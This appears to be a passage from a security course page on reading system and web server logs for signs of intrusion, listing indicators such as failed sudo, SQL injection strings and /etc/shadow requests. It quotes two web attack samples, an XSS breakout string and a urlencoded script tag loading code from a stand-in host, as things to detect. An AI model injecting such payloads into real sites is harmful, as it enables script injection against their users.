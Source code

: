 Changes on the user are also a point of interest. Things, such as user account additions,  changes or deletions, and password changes, are really interesting along with failed sudo commands (`FAILED su`).

As last but not least when something starts sending failures. It is usually something that should be checked out. It could be a faulty device, a bug, or someone trying to figure out if there is a whole in the system.

<text-box variant=emph name="Don’t panic">

So you got hacked. What to do when you notice it. Here is a short [procedure](https://business.f-secure.com/what-you-actually-need-to-do-if-youre-hacked/) of what to do.

</text-box>

So you have the logs for the web server and you are wondering what you should be looking from them. Below is a small list of points where you can start (the list is not complete but can be used to start to look for something going wrong).

- Executable file requests
- Excessive access attempts to non-existent files
- Code seen as part of the URL (urlencoded etc.)
- Access to extensions you have not implemented
- Access to pages that accept user input
- Oddly large transferred bits size
- System paths
- Web service stopped/started/failed messages
- SQL injection attempts, such as SELECT
- Lots of failed logins
- Large numbers of  of not found error (404) or internal server error (500) codes
- Error code 200 on files that are not yours

For example, in the request line one could see something like the following that could result in XSS attack.

```rest
’\"--></style></script><script>MALICIOUS CODE</script>
```

Or you could be seeing strings with many urlencoded characters when you are not supposed to see them. For example the following might be something you do not want to see.

```rest
%3cscript%20src=%22http%3a%2f%2fwww.malicious.com%2fcode.js%22%3e%3c%2fscript%3e
```

If you see an error code 404 it is actually a good thing as the server just said "I did not find the requested file". But then again if you start having loads of 404 codes it could mean that someone is searching for something that they should not be looking. On the other hand the success message 200 OK can be much more than an OK. Especially if when 200 OK is a result of, for example, either of the previous. 302 Redirect messages can be a sign that something has happened that should not have happened.

File paths and extensions is also something that one should look. Executable files are something that you might not want to see in the logs.  Moreover,  system paths, such as `/var/log` or `/etc/shadow` are not a good thing if found from web server’s log on a Linux box. It is also wise to remove backup and old files from the production site (.bak .old) as they are good source to look for changes in the system and they could reveal that the developer is lazy and makes mistakes etc.
